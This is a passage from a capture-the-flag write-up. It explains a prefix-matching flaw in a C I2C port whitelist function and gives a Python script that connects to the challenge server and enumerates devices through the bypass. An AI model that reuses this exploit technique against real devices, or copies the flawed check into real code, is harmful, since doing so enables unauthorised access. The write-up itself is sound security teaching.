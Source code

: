 If we try to issue a read command outside of the `ALLOWED_I2C` whitelist,
we get the following error message:
`-err: port invalid or not allowed`. Looking at `firmware.c` we
understand that this error message is due to the `port_to_int8` function
returning `-1`:

```C
int8_t port_to_int8(char *port) {
  if (!is_port_allowed(port)) {
    return -1;
  }

  return (int8_t)str_to_uint8(port);
}
```

`str_to_uint8` cannot return `-1`, i.e. this error message is triggered by
`is_port_allowed` returning `-1`:

```C
bool is_port_allowed(const char *port) {
  for(const char **allowed = ALLOWED_I2C; *allowed; allowed++) {
    const char *pa = *allowed;
    const char *pb = port;
    bool allowed = true;
    while (*pa && *pb) {
      if (*pa++ != *pb++) {
        allowed = false;
        break;
      }
    }
    if (allowed && *pa == '\0') {  // vuln, missing *pb == '\0'
      return true;
    }
  }
  return false;
}
```

This function checks the `port` I2C address against `ALLOWED_I2C` whitelist, but
it has a flaw: it does not check that it reached the end of the `port` string
when reaching the end of an item in `ALLOWED_I2C`.

The following Python script exploits this vulnerability to find all I2C devices:

```Python
import socket

s = socket.socket(socket.AF_INET)
s.connect(("weather.2022.ctfcompetition.com", 1337))

def wait_prompt(s):
    rx = s.recv(1000)
    while not rx.endswith(b"? "):
        rx += s.recv(1000)
    return rx

rx = wait_prompt(s)

# Use "101" thermometers prefix
for i2c_addr in range(101000, 101000+128):
    s.send(f"r {i2c_addr} 1\n".encode())
    rx = wait_prompt(s)

    if b"error - device not found" not in rx:
        print(i2c_addr%128, rx)
```
